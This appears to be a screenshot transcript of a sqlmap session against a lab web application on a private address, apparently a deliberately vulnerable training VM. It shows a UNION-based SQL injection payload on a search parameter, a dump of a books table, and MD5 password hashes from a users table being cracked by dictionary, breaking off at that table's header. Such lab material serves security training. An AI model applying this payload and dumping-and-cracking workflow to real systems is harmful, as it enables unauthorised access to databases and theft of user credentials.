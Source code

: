 ```shell
    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: search=123' UNION ALL SELECT CONCAT(0x716b6b6a71,0x527466504e7a64425265527145465152684576647849594d6b4d4176444b6f616a76784d52667265,0x717a716271),NULL,NULL-- -
---
[07:12:45] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.10 (cosmic)
web application technology: PHP, Apache 2.4.34
back-end DBMS: MySQL >= 5.0.12
[07:12:45] [INFO] fetching tables for database: 'webapphacking'
[07:12:45] [INFO] fetching columns for table 'books' in database 'webapphacking'
[07:12:45] [INFO] fetching entries for table 'books' in database 'webapphacking'
Database: webapphacking
Table: books
[15 entries]
+----+-------+-----------------------------+
| id | price | bookname                    |
+----+-------+-----------------------------+
| 1  | 50    | Anonymous Hackers TTP       |
| 2  | 80    | CISSP Guide                 |
| 3  | 30    | Security+                   |
| 4  | 45    | Practical WebApp Hacking    |
| 5  | 20    | All about Kali Linux        |
| 6  | 10    | Linux OS                    |
| 7  | 10    | Windows OS                  |
| 8  | 190   | IoT Exploitation            |
| 9  | 90    | ZigBee Wireless Hacking     |
| 10 | 50    | JTAG UART Hardware Hacking  |
| 11 | 40    | Container Breakout          |
| 12 | 240   | OSCP/OSCE Guide             |
| 13 | 40    | CREST CRT                   |
| 14 | 88    | Creating your vulnerable VM |
| 15 | 48    | OSINT                       |
+----+-------+-----------------------------+

[07:12:45] [INFO] table 'webapphacking.books' dumped to CSV file '/home/v4ler1an/.local/share/sqlmap/output/172.16.86.146/dump/webapphacking/books.csv'
[07:12:45] [INFO] fetching columns for table 'users' in database 'webapphacking'
[07:12:45] [INFO] fetching entries for table 'users' in database 'webapphacking'
[07:12:45] [INFO] recognized possible password hashes in column 'pasword'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[07:12:45] [INFO] using hash method 'md5_generic_passwd'
[07:12:45] [INFO] resuming password 'hello' for hash '5d41402abc4b2a76b9719d911017c592'
[07:12:45] [INFO] resuming password 'commando' for hash '6269c4f71a55b24bad0f0267d9be5508'
[07:12:45] [INFO] resuming password 'p@ssw0rd' for hash '0f359740bd1cda994f8b55330c86d845'
[07:12:45] [INFO] resuming password 'testtest' for hash '05a671c66aefea124cc08b76ea6d30bb'
[07:12:45] [INFO] resuming password '123456' for hash 'e10adc3949ba59abbe56e057f20f883e'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[07:12:45] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[07:12:45] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[07:12:45] [WARNING] multiprocessing hash cracking is currently not supported on this platform
Database: webapphacking                                                                                                                                                                             
Table: users
[7 entries]
+----+--------------+------------+----------------+---------------------------------------------+
```